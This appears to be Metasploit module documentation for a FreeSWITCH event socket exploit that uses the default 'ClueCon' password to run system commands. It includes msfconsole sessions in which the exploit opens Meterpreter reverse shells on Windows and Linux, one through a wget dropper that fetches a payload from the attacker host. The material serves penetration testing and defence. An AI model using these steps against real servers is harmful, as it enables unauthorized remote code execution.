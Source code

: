 ## Description

  This module uses the FreeSWITCH event socket interface
  to execute system commands using the `system` API command.

  The event socket service is enabled by default and listens
  on TCP port 8021 on the local network interface.


## Vulnerable Application

  [FreeSWITCH](https://freeswitch.com) is a free and open-source software defined
  telecommunications stack for real-time communication, WebRTC, telecommunications,
  video, and Voice over Internet Protocol.

  The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket)
  `mod_event_socket` is a TCP based interface to control FreeSWITCH and is enabled by default.

  The default values are to bind to 127.0.0.1 port 8021 and the default password is `ClueCon`.

  This module has been tested successfully on FreeSWITCH versions:

  1.6.10-17-726448d~44bit on FreeSWITCH-Deb8-TechPreview virtual machine;
  1.8.4~64bit on Ubuntu 19.04 (x64); and
  1.10.1~64bit on Windows 7 SP1 (EN) (x64).

  Source and Installers:

  * [Source Code Repository](ihttps://github.com/signalwire/freeswitch)
  * [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
  * [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/freeswitch_event_socket_cmd_exec`
  3. Do: `set rhosts <ip>`
  4. Do: `set rport [<port>` (default: `8021`)
  5. Do: `set password <password>` (default: `ClueCon`)
  6. Do: `set target <target>`
  7. Do: `run`
  8. You should get a session


## Options

  **Password**

  The password for the event socket. (default: `ClueCon`)


## Scenarios

### Windows PowerShell Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.242)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 2
target => 2
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (310 bytes) ...
[*] Sending stage (180291 bytes) to 172.16.191.242
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:50706) at 2019-11-02 17:31:33 -0400

meterpreter > getuid
Server username: TEST\user
meterpreter > pwd
C:\Program Files\FreeSWITCH
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```


### Linux Dropper Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 1
target => 1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmdstager::flavor wget
cmdstager::flavor => wget
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (150 bytes) ...
[*] 127.0.0.1:1234 - Using URL: http://0.0.0.0:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Local IP: http://172.16.191.165:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Client 172.16.191.172 (Wget/1.16 (linux-gnu)) requested /WuWvURUHveqo5
[*] 127.0.0.1:1234 - Sending payload to 172.16.191.172 (Wget/1.16 (linux-gnu))
[*] Sending stage (985320 bytes) to 172.16.191.172
[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (120/120 bytes)
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.172:42478) at 2019-11-02 17:34:59 -0400
[*] 127.0.0.1:1234 - Server stopped.

meterpreter > getuid
Server username: uid=999, gid=999, euid=999, egid=999
meterpreter > pwd
/
meterpreter > sysinfo
Computer     : 172.16.191.172
OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```


### UNIX Generic Command Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 0
target => 0
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmd "id; uname -a"
cmd => id; uname -a
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set verbose true
verbose => true
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (12 bytes) ...
[*] 127.0.0.1:1234 - Response: Content-Type: api/response
Content-Length: 159

uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
Linux freeswitch-vm 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u1 (2016-09-03) x86_64 GNU/Linux

[*] Exploit completed, but no session was created.
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > 
```
